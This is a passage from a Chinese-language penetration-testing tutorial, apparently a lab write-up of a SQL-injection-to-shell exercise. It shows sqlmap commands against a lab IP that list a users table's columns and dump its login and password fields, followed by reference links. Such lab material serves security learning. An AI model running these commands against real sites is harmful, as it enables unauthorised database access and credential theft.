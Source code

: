 - 列出指定表的字段

    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" -T users --columns`

    ![](image/column.png)

- 爆破指定的字段

    - `sqlmap -u "http://10.0.2.19/cat.php?id=1" -T users -C "id,login,password" --dump`

    - ![](image/user_pass.png)
    




    



















## 参考
[wfuzz | penetration testing tools](https://tools.kali.org/web-applications/wfuzz)

[SQL注入常见攻击方式](https://blog.csdn.net/github_36032947/article/details/78442189)

[Kali下使用SQLmap工具对网站进行渗透测试检测](https://www.exehack.net/4955.html)

[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)


